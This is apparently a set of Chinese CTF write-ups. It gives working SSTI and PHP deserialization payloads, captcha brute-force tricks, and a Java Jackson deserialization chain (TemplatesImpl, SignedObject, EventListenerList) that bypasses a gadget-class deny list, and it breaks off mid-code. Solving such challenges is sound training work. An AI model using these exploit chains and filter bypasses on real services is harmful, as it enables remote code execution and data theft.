# ghost_render

## #SSTI

一个文件上传的平台



渲染平台？那就是SSTI

创建一个md文件

```python
{{8*8}}
```

上传后回显64，那直接打ssti就行了

```python
{{url_for.__globals__.os.popen('cat /var/secret_flag').read()}}
```

# 简单的链子

## #反序列化

```php
<?php
class A {
    public $cmd;
    function __destruct() {
        if (isset($this->cmd)) {
            system($this->cmd);
        }
    }
}

if (isset($_GET['data'])) {
    $data = $_GET['data'];
    @unserialize($data);
} else {
    highlight_file(__FILE__);
}
```

这个很简单了，直接传就行

```php
<?php
class A {
    public $cmd="cat /flag";
}
$a = new A();
echo urlencode(serialize($a));
```

# 命运石之门

## #爆破+万能验证码

源代码里面找到一个注释的hint，base64解码后提示

```php
有时候，验证码是否好使不重要
```

扫目录找到一个/password.txt，是一个密码字典，那就直接bp爆一下

看他的意思是说验证码不重要，验证码随便写一个就行



但是提示验证码错误了，这里可以换成万能验证码

开发人员，在做功能模块测试时，为了节省短信测试消耗的时间，往往会设置一些万能验证码，在项目上线后，开发人员未对之前的万能验证码进行删除，从而导致万能验证码漏洞的产生 常用的万能验证码可能为：1111 0000 8888 6666 1234 等等

```php
1111 0000 8888 6666 1234等
```

最后0000成功了


又是需要密码，估计还是之前的字典，再爆一次



验证密码后就有flag了

# easyRead

## #反序列化

反序列化的题

```php
<?php

Class Read{
    public $source;
    public $is;

    public function __toString() {
        return $this->is->run("Read");
    }

    public function __wakeup(){
            echo "Hello>>>".$this->source;
    }

}
class Help{
    public $source;
    public $str;
    public function Printf($what){
        echo "Hello>>>".$what;
        echo "<br>";
        return $this->str->source;
    }

    public function __call($name, $arguments){
        $this->Printf($name);
    }
}
class Polar {
    private  $var;
    public function getit($value){

        eval($value);
    }
    public function __invoke(){
        $this->getit($this->var);
    }
}

class Doit{
    public $is;
    private $source;
    public function __construct(){
        $this->is = array();
    }

    public function __get($key){
        $vul = $this->is;
        return $vul();
    }
}

if(isset($_GET['polar'])){
    @unserialize($_GET['polar']);
}
else{
    highlight_file(__FILE__);
}
```

这里没有destruct函数那就链子的入口就是wakeup函数，先写一下链子

```php
Read::__wakeup()->Read::__toString()->Help::__call()->Doit::__get()->Polar::__invoke()->Polar::getit()
```

然后直接写poc就行

```php
<?php
Class Read{
    public $source;
    public $is;

}
class Help{
    public $source;
    public $str;
}
class Polar {
    private $var="phpinfo();";
}
class Doit{
    public $is;
    private $source;
}
$a = new Read();
$a -> source = new Read();
$a -> source -> is = new Help();
$a -> source -> is -> str = new Doit();
$a -> source -> is -> str -> is = new Polar();
$a -> source -> is -> str -> is -> var = "phpinfo();";
echo urlencode(serialize($a));
```



直接打就行

# ez_check

## #Jackson反序列化绕过WAF

jar包反编译后放到IDEA中

在com.polar.ctf.controller.ReadObjectController类中

```java
package com.polar.ctf.controller;

import com.polar.ctf.utils.Checker;
import com.polar.ctf.utils.SafeObjectInputStream;
import java.io.ByteArrayInputStream;
import java.util.ArrayList;
import java.util.Base64;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
/* loaded from: ez_check.jar:BOOT-INF/classes/com/polar/ctf/controller/ReadObjectController.class */
public class ReadObjectController {
    public ArrayList<String> evalClass;

    @RequestMapping({"/deserialize"})
    public String JavaReadObject(@RequestParam("ser") String ser) throws Exception {
        byte[] bytes = Base64.getDecoder().decode(ser);
        if (new Checker().KmpCheck(bytes)) {
            return "hacker.html";
        }
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        SafeObjectInputStream ois = new SafeObjectInputStream(bais);
        ois.readObject();
        ois.close();
        return "deserialization success";
    }
}
```

对ser参数的值进行base64解码后有一个KmpCheck检查

```java
package com.polar.ctf.utils;

/* loaded from: ez_check.jar:BOOT-INF/classes/com/polar/ctf/utils/Checker.class */
public class Checker {
    public byte[][] checkCases = {
            new byte[]{98, 115, 104, 46},
            new byte[]{99, 104, 46, 113, 111, 115, 46, 108, 111, 103, 98, 97, 99, 107, 46, 99, 111, 114, 101, 46, 100, 98, 46},
            new byte[]{99, 108, 111, 106, 117, 114, 101, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 98, 97, 98, 97, 46, 99, 105, 116, 114, 117, 115, 46, 115, 112, 114, 105, 110, 103, 101, 120, 116, 46, 115, 117, 112, 112, 111, 114, 116, 46, 112, 97, 114, 115, 101, 114, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 98, 97, 98, 97, 46, 99, 105, 116, 114, 117, 115, 46, 115, 112, 114, 105, 110, 103, 101, 120, 116, 46, 117, 116, 105, 108, 46, 83, 112, 114, 105, 110, 103, 69, 120, 116, 85, 116, 105, 108, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 98, 97, 98, 97, 46, 100, 114, 117, 105, 100, 46, 112, 111, 111, 108, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 98, 97, 98, 97, 46, 104, 111, 116, 99, 111, 100, 101, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46, 111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 108, 108, 101, 99, 116, 105, 111, 110, 115, 46, 102, 117, 110, 99, 116, 111, 114, 115, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 112, 97, 121, 46, 99, 117, 115, 116, 114, 101, 108, 97, 116, 105, 111, 110, 46, 115, 101, 114, 118, 105, 99, 101, 46, 109, 111, 100, 101, 108, 46, 114, 101, 100, 114, 101, 115, 115, 46},
            new byte[]{99, 111, 109, 46, 97, 108, 105, 112, 97, 121, 46, 111, 99, 101, 97, 110, 98, 97, 115, 101, 46, 111, 98, 112, 114, 111, 120, 121, 46, 100, 114, 117, 105, 100, 46, 112, 111, 111, 108, 46},
            new byte[]{99, 111, 109, 46, 99, 97, 117, 99, 104, 111, 46, 99, 111, 110, 102, 105, 103, 46, 116, 121, 112, 101, 115, 46},
            new byte[]{99, 111, 109, 46, 99, 97, 117, 99, 104, 111, 46, 104, 101, 115, 115, 105, 97, 110, 46, 116, 101, 115, 116, 46},
            new byte[]{99, 111, 109, 46, 99, 97, 117, 99, 104, 111, 46, 110, 97, 109, 105, 110, 103, 46},
            new byte[]{99, 111, 109, 46, 105, 98, 109, 46, 106, 116, 99, 46, 106, 97, 120, 46, 120, 109, 108, 46, 98, 105, 110, 100, 46, 118, 50, 46, 114, 117, 110, 116, 105, 109, 101, 46, 117, 110, 109, 97, 114, 115, 104, 97, 108, 108, 101, 114, 46},
            new byte[]{99, 111, 109, 46, 105, 98, 109, 46, 120, 108, 116, 120, 101, 46, 114, 110, 109, 49, 46, 120, 116, 113, 46, 98, 99, 101, 108, 46, 117, 116, 105, 108, 46},
            new byte[]{99, 111, 109, 46, 109, 99, 104, 97, 110, 103, 101, 46, 118, 50, 46, 99, 51, 112, 48, 46},
            new byte[]{99, 111, 109, 46, 109, 121, 115, 113, 108, 46, 106, 100, 98, 99, 46, 117, 116, 105, 108, 46},
            new byte[]{99, 111, 109, 46, 114, 111, 109, 101, 116, 111, 111, 108, 115, 46, 114, 111, 109, 101, 46, 102, 101, 101, 100, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 99, 111, 114, 98, 97, 46, 115, 101, 46, 105, 109, 112, 108, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 99, 111, 114, 98, 97, 46, 115, 101, 46, 115, 112, 105, 46, 111, 114, 98, 117, 116, 105, 108, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 106, 110, 100, 105, 46, 114, 109, 105, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 106, 110, 100, 105, 46, 116, 111, 111, 108, 107, 105, 116, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 98, 99, 101, 108, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 120, 97, 108, 97, 110, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 114, 111, 119, 115, 101, 116, 46},
            new byte[]{99, 111, 109, 46, 115, 117, 110, 46, 120, 109, 108, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46, 98, 105, 110, 100, 46, 118, 50, 46},
            new byte[]{99, 111, 109, 46, 116, 97, 111, 98, 97, 111, 46, 118, 105, 112, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 108, 108, 101, 99, 116, 105, 111, 110, 115, 46, 102, 117, 110, 99, 116, 111, 114, 115, 46},
            new byte[]{103, 114, 111, 111, 118, 121, 46, 108, 97, 110, 103, 46},
            new byte[]{106, 97, 118, 97, 46, 97, 119, 116, 46},
            new byte[]{106, 97, 118, 97, 46, 98, 101, 97, 110, 115, 46},
            new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114},
            new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101},
            new byte[]{106, 97, 118, 97, 46, 114, 109, 105, 46, 115, 101, 114, 118, 101, 114, 46},
            new byte[]{106, 97, 118, 97, 46, 115, 101, 99, 117, 114, 105, 116, 121, 46},
            new byte[]{106, 97, 118, 97, 46, 117, 116, 105, 108, 46, 83, 101, 114, 118, 105, 99, 101, 76, 111, 97, 100, 101, 114},
            new byte[]{106, 97, 118, 97, 46, 117, 116, 105, 108, 46, 83, 116, 114, 105, 110, 103, 84, 111, 107, 101, 110, 105, 122, 101, 114},
            new byte[]{106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 98, 121, 116, 101, 99, 111, 100, 101, 46, 97, 110, 110, 111, 116, 97, 116, 105, 111, 110, 46},
            new byte[]{106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 116, 111, 111, 108, 115, 46, 119, 101, 98, 46, 86, 105, 101, 119, 101, 114},
            new byte[]{106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 117, 116, 105, 108, 46, 112, 114, 111, 120, 121, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 105, 109, 97, 103, 101, 105, 111, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 105, 109, 97, 103, 101, 105, 111, 46, 115, 112, 105, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 109, 97, 110, 97, 103, 101, 109, 101, 110, 116, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 109, 101, 100, 105, 97, 46, 106, 97, 105, 46, 114, 101, 109, 111, 116, 101, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 110, 97, 109, 105, 110, 103, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 115, 99, 114, 105, 112, 116, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 115, 111, 117, 110, 100, 46, 115, 97, 109, 112, 108, 101, 100, 46},
            new byte[]{106, 97, 118, 97, 120, 46, 115, 119, 105, 110, 103, 46},
            new byte[]{110, 101, 116, 46, 98, 121, 116, 101, 98, 117, 100, 100, 121, 46, 100, 121, 110, 97, 109, 105, 99, 46, 108, 111, 97, 100, 105, 110, 103, 46},
            new byte[]{111, 114, 97, 99, 108, 101, 46, 106, 100, 98, 99, 46, 99, 111, 110, 110, 101, 99, 116, 111, 114, 46},
            new byte[]{111, 114, 97, 99, 108, 101, 46, 106, 100, 98, 99, 46, 112, 111, 111, 108, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 97, 114, 105, 101, 115, 46, 116, 114, 97, 110, 115, 97, 99, 116, 105, 111, 110, 46, 106, 109, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 98, 99, 101, 108, 46, 117, 116, 105, 108, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 97, 114, 98, 111, 110, 100, 97, 116, 97, 46, 99, 111, 114, 101, 46, 115, 99, 97, 110, 46, 101, 120, 112, 114, 101, 115, 115, 105, 111, 110, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 98, 101, 97, 110, 117, 116, 105, 108, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 100, 101, 99, 46, 98, 105, 110, 97, 114, 121, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 108, 108, 101, 99, 116, 105, 111, 110, 115, 46, 102, 117, 110, 99, 116, 111, 114, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 108, 108, 101, 99, 116, 105, 111, 110, 115, 52, 46, 102, 117, 110, 99, 116, 111, 114, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 110, 102, 105, 103, 117, 114, 97, 116, 105, 111, 110, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 110, 102, 105, 103, 117, 114, 97, 116, 105, 111, 110, 50, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 100, 98, 99, 112, 46, 100, 97, 116, 97, 115, 111, 117, 114, 99, 101, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 100, 98, 99, 112, 50, 46, 100, 97, 116, 97, 115, 111, 117, 114, 99, 101, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 102, 105, 108, 101, 117, 112, 108, 111, 97, 100, 46, 100, 105, 115, 107, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 105, 98, 97, 116, 105, 115, 46, 101, 120, 101, 99, 117, 116, 111, 114, 46, 108, 111, 97, 100, 101, 114, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 105, 98, 97, 116, 105, 115, 46, 106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 98, 121, 116, 101, 99, 111, 100, 101, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 105, 98, 97, 116, 105, 115, 46, 106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 116, 111, 111, 108, 115, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 105, 98, 97, 116, 105, 115, 46, 106, 97, 118, 97, 115, 115, 105, 115, 116, 46, 117, 116, 105, 108, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 105, 103, 110, 105, 116, 101, 46, 99, 97, 99, 104, 101, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 108, 111, 103, 46, 111, 117, 116, 112, 117, 116, 46, 100, 98, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 108, 111, 103, 52, 106, 46, 114, 101, 99, 101, 105, 118, 101, 114, 115, 46, 100, 98, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 109, 121, 102, 97, 99, 101, 115, 46, 118, 105, 101, 119, 46, 102, 97, 99, 101, 108, 101, 116, 115, 46, 101, 108, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 111, 112, 101, 110, 106, 112, 97, 46, 101, 101, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 111, 112, 101, 110, 106, 112, 97, 46, 101, 101, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 115, 104, 105, 114, 111, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 116, 111, 109, 99, 97, 116, 46, 100, 98, 99, 112, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 118, 101, 108, 111, 99, 105, 116, 121, 46, 114, 117, 110, 116, 105, 109, 101, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 118, 101, 108, 111, 99, 105, 116, 121, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 119, 105, 99, 107, 101, 116, 46, 117, 116, 105, 108, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 120, 97, 108, 97, 110, 46, 120, 115, 108, 116, 99, 46, 116, 114, 97, 120, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 120, 98, 101, 97, 110, 46, 110, 97, 109, 105, 110, 103, 46, 99, 111, 110, 116, 101, 120, 116, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 120, 112, 97, 116, 104, 46},
            new byte[]{111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 122, 111, 111, 107, 101, 101, 112, 101, 114, 46},
            new byte[]{111, 114, 103, 46, 97, 115, 112, 101, 99, 116, 106, 46, 97, 112, 97, 99, 104, 101, 46, 98, 99, 101, 108, 46, 117, 116, 105, 108, 46},
            new byte[]{111, 114, 103, 46, 99, 111, 100, 101, 104, 97, 117, 115, 46, 103, 114, 111, 111, 118, 121, 46, 114, 117, 110, 116, 105, 109, 101, 46},
            new byte[]{111, 114, 103, 46, 100, 97, 116, 97, 110, 117, 99, 108, 101, 117, 115, 46, 115, 116, 111, 114, 101, 46, 114, 100, 98, 109, 115, 46, 100, 97, 116, 97, 115, 111, 117, 114, 99, 101, 46, 100, 98, 99, 112, 46, 100, 97, 116, 97, 115, 111, 117, 114, 99, 101, 115, 46},
            new byte[]{111, 114, 103, 46, 101, 99, 108, 105, 112, 115, 101, 46, 106, 101, 116, 116, 121, 46, 117, 116, 105, 108, 46, 108, 111, 103, 46},
            new byte[]{111, 114, 103, 46, 103, 101, 111, 116, 111, 111, 108, 115, 46, 102, 105, 108, 116, 101, 114, 46},
            new byte[]{111, 114, 103, 46, 104, 50, 46, 118, 97, 108, 117, 101, 46},
            new byte[]{111, 114, 103, 46, 104, 105, 98, 101, 114, 110, 97, 116, 101, 46, 116, 117, 112, 108, 101, 46, 99, 111, 109, 112, 111, 110, 101, 110, 116, 46},
            new byte[]{111, 114, 103, 46, 104, 105, 98, 101, 114, 110, 97, 116, 101, 46, 116, 121, 112, 101, 46},
            new byte[]{111, 114, 103, 46, 106, 98, 111, 115, 115, 46, 101, 106, 98, 51, 46},
            new byte[]{111, 114, 103, 46, 106, 98, 111, 115, 115, 46, 112, 114, 111, 120, 121, 46, 101, 106, 98, 46},
            new byte[]{111, 114, 103, 46, 106, 98, 111, 115, 115, 46, 114, 101, 115, 116, 101, 97, 115, 121, 46, 112, 108, 117, 103, 105, 110, 115, 46, 115, 101, 114, 118, 101, 114, 46, 114, 101, 115, 111, 117, 114, 99, 101, 102, 97, 99, 116, 111, 114, 121, 46},
            new byte[]{111, 114, 103, 46, 106, 98, 111, 115, 115, 46, 119, 101, 108, 100, 46, 105, 110, 116, 101, 114, 99, 101, 112, 116, 111, 114, 46, 98, 117, 105, 108, 100, 101, 114, 46},
            new byte[]{111, 114, 103, 46, 109, 111, 99, 107, 105, 116, 111, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46, 99, 114, 101, 97, 116, 105, 111, 110, 46, 99, 103, 108, 105, 98, 46},
            new byte[]{111, 114, 103, 46, 109, 111, 114, 116, 98, 97, 121, 46, 108, 111, 103, 46},
            new byte[]{111, 114, 103, 46, 113, 117, 97, 114, 116, 122, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 97, 111, 112, 46, 97, 115, 112, 101, 99, 116, 106, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 98, 101, 97, 110, 115, 46, 66, 101, 97, 110, 87, 114, 97, 112, 112, 101, 114, 73, 109, 112, 108, 36, 66, 101, 97, 110, 80, 114, 111, 112, 101, 114, 116, 121, 72, 97, 110, 100, 108, 101, 114},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 98, 101, 97, 110, 115, 46, 102, 97, 99, 116, 111, 114, 121, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 101, 120, 112, 114, 101, 115, 115, 105, 111, 110, 46, 115, 112, 101, 108, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 106, 110, 100, 105, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 111, 114, 109, 46},
            new byte[]{111, 114, 103, 46, 115, 112, 114, 105, 110, 103, 102, 114, 97, 109, 101, 119, 111, 114, 107, 46, 116, 114, 97, 110, 115, 97, 99, 116, 105, 111, 110, 46},
            new byte[]{111, 114, 103, 46, 121, 97, 109, 108, 46, 115, 110, 97, 107, 101, 121, 97, 109, 108, 46, 116, 111, 107, 101, 110, 115, 46},
            new byte[]{112, 115, 116, 111, 114, 101, 46, 115, 104, 97, 100, 101, 100, 46, 111, 114, 103, 46, 97, 112, 97, 99, 104, 101, 46, 99, 111, 109, 109, 111, 110, 115, 46, 99, 111, 108, 108, 101, 99, 116, 105, 111, 110, 115, 46},
            new byte[]{115, 117, 110, 46, 114, 109, 105, 46, 115, 101, 114, 118, 101, 114, 46},
            new byte[]{115, 117, 110, 46, 114, 109, 105, 46, 116, 114, 97, 110, 115, 112, 111, 114, 116, 46},
            new byte[]{119, 101, 98, 108, 111, 103, 105, 99, 46, 101, 106, 98, 50, 48, 46, 105, 110, 116, 101, 114, 110, 97, 108, 46},
            new byte[]{119, 101, 98, 108, 111, 103, 105, 99, 46, 106, 109, 115, 46, 99, 111, 109, 109, 111, 110, 46}};

    private void build(byte[] P, int[] next, int m) {
        next[0] = -1;
        int k = -1;
        for (int j = 0; j < m - 1; j++) {
            while (k >= 0 && P[k] != P[j]) {
                k = next[k];
            }
            int var = j + 1;
            k++;
            next[var] = k;
        }
    }

    public boolean KmpCheck(byte[] data) {
        for (byte[] checkCase : this.checkCases) {
            int[] next = new int[checkCase.length];
            build(checkCase, next, checkCase.length);
            int i = 0;
            int j = 0;
            while (i < data.length) {
                if (j == -1 || data[i] == checkCase[j]) {
                    i++;
                    j++;
                    if (j == checkCase.length) {
                        System.out.println("checkCase: " + new String(checkCase));
                        return true;
                    }
                } else {
                    j = next[j];
                }
            }
        }
        return false;
    }
}
```

利用KMP字符串匹配算法，会对我们传入的序列化字符串进行明文匹配，用**utf-8 overlong**去绕过：https://vidar-team.feishu.cn/docx/LJN4dzu1QoEHt4x3SQncYagpnGd

然后用的是自己写的SafeObjectInputStream去进行反序列化的

```java
package com.polar.ctf.utils;

import java.io.IOException;
import java.io.InputStream;
import java.io.InvalidClassException;
import java.io.ObjectInputStream;
import java.io.ObjectStreamClass;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Set;

/* loaded from: ez_check.jar:BOOT-INF/classes/com/polar/ctf/utils/SafeObjectInputStream.class */
public class SafeObjectInputStream extends ObjectInputStream {
    private static final Set<String> BLACKLIST = new HashSet(Arrays.asList("org.apache.commons.beanutils.BeanComparator", "javax.management.BadAttributeValueExpException", "org.apache.commons.collections4.map.AbstractHashedMap", "org.springframework.aop.target.HotSwappableTargetSource", "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl"));

    public SafeObjectInputStream(InputStream in) throws IOException {
        super(in);
    }

    @Override // java.io.ObjectInputStream
    protected Class<?> resolveClass(ObjectStreamClass desc) throws ClassNotFoundException, IOException {
        String className = desc.getName();
        if (BLACKLIST.contains(className)) {
            throw new InvalidClassException("Disallowed deserialization attempt: " + className);
        }
        return super.resolveClass(desc);
    }
}
```

一个黑名单

依赖



可以打jackson的原生反序列化，黑名单的话用二次反序列化去绕过

但是触发SignedObject需要用到POJONode#toString，而触发toString的BadAttributeValueExpException被禁用了，可以换成EventListenerList去触发

尝试写一下POC

```java
package TestCode;

import SerializeChains.UTF_bypass.CustomObjectOutputStream;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.springframework.aop.framework.AdvisedSupport;

import javax.management.BadAttributeValueExpException;
import javax.swing.event.EventListenerList;
import javax.swing.undo.UndoManager;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.net.URLEncoder;
import java.security.KeyPair;
import java.security.KeyPairGenerator;
import java.security.Signature;
import java.security.SignedObject;
import java.util.Base64;
import java.util.Vector;

public class POC {
    public static void main(String[] args) throws Exception {
        overrideJackson();
        TemplatesImpl templates = (TemplatesImpl) initEvilTemplates();
        Object proxy = getPOJONodeStableProxy(templates);


        POJONode pojoNode = new POJONode(proxy);
        //触发toString()方法
        EventListenerList eventListenerList = (EventListenerList) getEventListenerList(pojoNode);

        //二次反序列化
        SignedObject signedObject = second_serialize(eventListenerList);

        //触发SignedObject#getObject方法
        POJONode pojoNode2 = new POJONode(signedObject);
        //触发toString()方法
        EventListenerList eventListenerList2 = (EventListenerList) getEventListenerList(pojoNode2);

        if(new Checker().KmpCheck(Base64.getDecoder().decode(serialize(eventListenerList2))))
        {
            System.out.println("No");
        }
        System.out.println( URLEncoder.encode(serialize(eventListenerList2)));
    }
    public static Object getEventListenerList(Object object) throws Exception{
        EventListenerList eventListenerList = new EventListenerList();
        UndoManager undoManager = new UndoManager();

        //从UndoManager父类CompoundEdit的edits中取出Vector对象，并将恶意类通过add添加
        Vector vector = (Vector) getFieldValue(undoManager,"edits");
        vector.add(object);

        setFieldValue(eventListenerList,"listenerList", new Object[]{Class.class, undoManager});
        return eventListenerList;
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception{
        final Field f = getField (obj.getClass (), fieldName );
        return f.get (obj);
    }
    public static Field getField( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if (field != null)
                field.setAccessible(true);
            else if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        } catch (NoSuchFieldException e) {
            if (!clazz.getSuperclass().equals(Object.class)) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    //二次序列化函数
    public static SignedObject second_serialize(Object o) throws Exception {
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject((Serializable) o, kp.getPrivate(), Signature.getInstance("DSA"));
        return signedObject;
    }
    //获取进行了动态代理的templatesImpl，保证触发getOutputProperties
    public static Object getPOJONodeStableProxy(Object templatesImpl) throws Exception{
        Class<?> clazz = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");
        Constructor<?> cons = clazz.getDeclaredConstructor(AdvisedSupport.class);
        cons.setAccessible(true);
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templatesImpl);
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
        return proxyObj;
    }
    public static void overrideJackson() throws NotFoundException, CannotCompileException, IOException {
        CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(writeReplace);
        ctClass.toClass();
    }
    public static TemplatesImpl initEvilTemplates() throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        byte[] bytes = getshortclass("whoami");
        byte[][] codes = {bytes};

        setFieldValue(templates, "_bytecodes", codes);
        setFieldValue(templates,"_name","a");
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static String serialize(Object object) throws Exception{
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        CustomObjectOutputStream oos = new CustomObjectOutputStream(byteArrayOutputStream);
        oos.writeObject(object);
        oos.close();
        String poc = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return poc;
    }

    //定义反序列化操作,提供base64后的字节码，进行反序列化
    public static void unserialize(String poc) throws Exception{
        byte[] bytes = Base64.getDecoder().decode(poc);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
